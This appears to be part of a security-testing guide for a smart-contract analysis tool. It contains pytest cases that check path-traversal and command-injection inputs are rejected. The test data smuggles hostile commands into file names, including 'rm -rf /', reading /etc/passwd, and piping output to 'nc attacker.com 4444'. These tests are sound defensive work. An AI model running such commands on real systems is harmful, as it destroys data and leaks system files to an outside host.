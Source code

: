 **Trust Boundaries**:
- User input → Validation layer → Core logic
- Core logic → Tool execution → Result parsing
- API layer → Business logic → Response

**High-Risk Components**:
1. **Tool execution** (subprocess, command injection risk)
2. **File path handling** (path traversal risk)
3. **JSON parsing** (deserialization attacks)
4. **Error handling** (information leakage)

---

## 🧪 Security Testing Strategy

### Test Pyramid for Security

```
        /\
       /  \  E2E Security Tests (5%)
      /____\
     /      \ Integration Security Tests (15%)
    /________\
   /          \ Unit Security Tests (80%)
  /__________\
```

### Security Test Categories

#### 1. Input Validation Tests
```python
def test_path_traversal_prevention():
    """Prevent directory traversal attacks"""
    malicious_paths = [
        "../../../etc/passwd",
        "..\\..\\windows\\system32",
        "/etc/shadow",
        "contract.sol\x00.txt"
    ]
    for path in malicious_paths:
        with pytest.raises(ValidationError):
            AnalysisRequest(contract_code=path)
```

#### 2. Injection Attack Tests
```python
def test_command_injection_prevention():
    """Prevent command injection in tool execution"""
    malicious_inputs = [
        "contract.sol; rm -rf /",
        "contract.sol && cat /etc/passwd",
        "contract.sol | nc attacker.com 4444",
        "$(whoami).sol"
    ]
    for malicious_input in malicious_inputs:
        with pytest.raises(SecurityError):
            analyze_contract(malicious_input)
```
